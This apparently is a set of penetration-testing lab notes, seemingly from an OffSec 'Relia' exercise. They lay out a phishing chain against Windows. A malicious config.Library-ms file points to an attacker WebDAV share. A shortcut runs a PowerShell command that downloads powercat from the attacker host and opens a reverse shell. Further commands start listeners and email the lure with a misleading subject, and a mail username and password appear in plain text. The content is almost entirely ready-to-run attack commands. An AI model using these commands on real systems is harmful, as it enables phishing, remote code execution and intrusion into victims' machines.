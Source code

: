# Prepare config.Library-ms file within windows
```bash
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.177</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

-----------------------

# Create a shortcut on a windows machine and save as `install`
```bash
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.177:8000/powercat.ps1'); powercat -c 192.168.45.177 -p 4444 -e powershell"
```

-----------------------

# Start webdav server

```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/sombi/offsec/Relia/external/249/phishing
```

-----------------------

# Serve powercat on another terminal
```bash
python3 -m http.server 8000
```

-----------------------

# start a netcat listener
```bash
rlwrap nc -lvnp 4444
```

-----------------------

# Write a message on a `body.txt` and send everything over smtp

```bash
sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.209.189 --body @body.txt --header "Subject: Staging connection" --suppress-data -ap

Username: maildmz
Password: DPuBT9tGCBrTbR
```







